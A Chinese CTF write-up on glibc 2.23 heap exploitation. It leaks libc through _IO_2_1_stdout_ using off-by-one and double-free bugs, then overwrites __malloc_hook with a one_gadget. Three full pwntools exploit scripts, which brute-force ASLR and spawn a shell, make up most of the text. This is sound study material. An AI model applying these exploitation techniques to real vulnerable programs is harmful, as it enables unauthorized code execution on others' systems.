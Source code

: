 在做heap时有时候并没有自带的输出模块，所以打_IO_2_1_stdout\_成了一种常用手段。一般只出现在glibc2.23版本下glibc2.27下aslr随机的位数比较多爆破概率比较小，没算错的话应该时1/4096，而2.23的情况下是1/16。

这里记录两道例题，也忘了是哪里的题了，反正模板题。以便以后快速复现把

一道off-by-one配合\_IO\_2\_1\_stdout，一道double free配合\_IO\_2\_1\_stdout

## 例题1

**关键字：_IO_2_1_stdout\_、off-by-one**

功能很少，就一个add和delete，add的时候存在off-by-one

![](1.png)

![](2.png)

![](3.png)

核心是堆块的布局，通过off-by-one修改堆块的大小来造成堆块的堆叠(smallbin和fastbin重叠)。具体构造见exp。

泄露之后既可以通过double free来劫持\_\_malloc\_hook（exp1），也可以故技重施来劫持\_\_malloc\_hook(exp2)，最后在申请一次堆块就能getshell

比较关键的点：add(2,0x50,'\xdd\xb5')，这里虽然申请0x60大小的堆，但由于unsortedbin中的堆块大小为0x70，glibc为了防止碎片过多malloc到的堆块大小为0x70。



exp1

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content='\x00'):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0,0x20)
	add(1,0x20)
	add(2,0x60)
	add(3,0x20)
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x20)
	add(2,0x50,'\xdd\xb5')
	add(4,0x60)
	add(5,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	
#=========================leak=============================
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	one = libcbase + one_gadget[3]
	pr('libcbase',libcbase)
	
#==========================================================
	add(6,0x60)
	delete(2)
	delete(6)
	delete(4)
	add(7,0x60,p64(malloc_hook-0x23))
	add(8,0x60)
	add(9,0x60)
	add(10,0x60,'a'*0x13+p64(one))
	#gdb.attach(p)

	p.interactive()

while True:
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```



exp2

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(str1,addr):
	log.success(str1+'===>'+hex(addr))

def pwn():
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,'\xdd\xb5')
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	pr('libcbase',libcbase)
	for i in range(4):
		one_gadget[i] += libcbase
		pr('one_gadget'+str(i),one_gadget[i])
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	pr('malloc_hook',malloc_hook)

	#gdb.attach(p)	
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,p64(malloc_hook-0x23))
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x13+p64(one_gadget[3]))
	p.interactive()

while True:
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```



## 例题二：nepctf sooooeasy

**关键字：_IO_2_1_stdout\_、double free**

逻辑也很简单，只有add和delete，存在double free，本来想double free修改size来做，但这样会变得很麻烦，而且申请的堆块太多了，大于题目要求，看了wp发现了更好的堆块分布，确实是非常好的利用思路。

![](4.png)

![](5.png)



exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=0.5)

#p = remote('',)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def add(name_size,name='a',message='b'):
	p.sendlineafter('choice : ','1')
	p.sendlineafter('your name: \n',str(name_size))
	p.sendafter('Your name:\n',name)
	p.sendlineafter('Your message:\n',message)
def delete(idx):
	p.sendlineafter('choice : ','2')
	p.sendlineafter('index:',str(idx))
def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0x60)
	add(0x90)
	add(0x60)
	delete(1)
	add(0x60,'\xdd\x25')
	delete(0)
	delete(2)
	delete(0)
	add(0x60,'\x00')
	add(0x60)
	add(0x60)
	add(0x60)
	add(0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600
	libc_realloc = libcbase + libc.sym['__libc_realloc']
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	one = libcbase + [0x45226,0x4527a,0xf0364,0xf1207][1]
	pr('libcbase',libcbase)
	pr('malloc_hook',malloc_hook)
	pr('one',one)
	delete(0)
	delete(2)
	delete(0)
	add(0x60,p64(malloc_hook-0x23))
	add(0x60)
	add(0x60)
	add(0x60,'a'*11+p64(one)+p64(libc_realloc+13))
	p.sendlineafter('choice : ','1')
	#gdb.attach(p,'b *'+str(one))
	p.interactive()
while True:
	try:
		global p
		p = process('./sooooeasy')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```

